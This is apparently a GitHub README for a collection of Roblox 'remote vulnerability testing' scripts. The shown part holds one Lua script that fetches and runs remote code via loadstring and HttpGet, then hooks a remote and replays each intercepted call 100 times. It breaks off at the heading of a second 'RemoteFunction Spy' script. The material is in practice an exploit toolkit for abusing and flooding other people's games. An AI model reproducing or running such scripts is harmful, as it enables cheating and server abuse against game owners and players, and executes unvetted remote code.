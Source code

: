 # Roblox Remote Vulnerability Testing Scripts

A collection of scripts for testing vulnerabilities in **RemoteEvents** and **RemoteFunctions** in Roblox games. These scripts assist in **brute-forcing remote calls**, **spying on RemoteFunctions**, and **manipulating remote arguments**.

## Scripts Overview

### 1️⃣ Remote Hooking  
Hooks into remote functions and executes custom logic on intercepted calls.  

<details>
  <summary>Click to expand</summary>

  ```lua
  local HS = loadstring(game:HttpGet('https://raw.githubusercontent.com/0zBug/HookingService/refs/heads/main/main.lua'))()
  local function HookFunction(originalFunction, remote, ...)
      local args = {...}
      print("arguments:", unpack(args))
      --
      for i = 1, 100 do
          originalFunction(remote, unpack(args))
      end
  
      return originalFunction(remote, unpack(args))
  end
  local remote = workspace
  HS:HookRemote(remote, HookFunction)
</details>

### 2️⃣ **RemoteFunction Spy**
